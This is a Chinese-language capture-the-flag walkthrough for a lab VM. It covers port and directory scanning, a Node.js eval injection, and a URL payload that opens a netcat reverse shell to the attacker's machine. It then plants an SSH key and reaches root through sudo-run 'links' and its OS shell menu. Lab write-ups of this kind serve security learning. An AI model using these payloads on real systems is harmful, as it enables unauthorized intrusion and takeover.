

## 靶机地址

[Proton Drive](https://drive.proton.me/urls/QD1XJVR2HM#pa5ZEZ8FnfTA)


## 信息收集

### nmap扫描

#### 准备阶段


创建文件夹，用来存放nmap扫描结果


#### 主机探测

```
nmap -sn 192.168.1.0/24
```


确定靶机ip：

192.168.1.9


#### 端口扫描

```
nmap --min-rate 10000 -p- -sT 192.168.1.9 -oA ./nmapscan/ports
```


开放了：

- 22 ssh
- 80 http
- 5000 不确定


#### 提取端口信息

```
ports
```


#### 详细结果扫描

```
nmap -sT -sC -sV -O -p 22,80,5000 192.168.1.9 -oA ./nmapscan/detail
```


分析：

- 22 open ssh OpenSSH 9.2p1 
- Debian
- 80 http Apache httpd 2.4.57 
- 5000 http Node.js


### 80端口

#### 访问192.168.1.9


apache主页

查看源码无内容


#### dirsearch扫描目录

```
dirsearch -u http://192.168.1.9
```


#### 访问images


#### 只有一个logo图像


#### gobuster扫描目录

```
gobuster dir -u http://192.168.1.9 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```



无内容


### 5000端口

#### 访问192.168.1.9:5000


#### 随便输入内容


观察url

存在name和token


#### 修改token


当token为字母时报错


存在aleister用户

根据报错

```
q is not defined
```

且存在eval函数

可能存在rce


#### 反弹shell

##### 本地开启监听

```
nc -lvp 283
```


```
http://192.168.1.9:5000/?name=123&token=require(%27child_process%27).exec(%27nc%20-e%20/bin/sh%20192.168.1.3%20283%27)
```


成功得到shell


## 提权

### script转换终端

```
/usr/bin/script -qc /bin/bash /dev/null
```


### 执行sudo -l

```
sudo -l
```


无密码执行links

（我这里执行links会出现乱码，因此我尝试ssh登录）


### ssh登录

首先进入aleister家目录下

创建.ssh文件夹

任何将自己的公钥文件拷贝到当前文件夹


然后ssh登录

```
ssh aleister@192.168.1.9 -i id_rsa
```


### 重新执行links

```
sudo links
```


按esc


选中File


选中OS shell

成功提权


### 成功得到flag


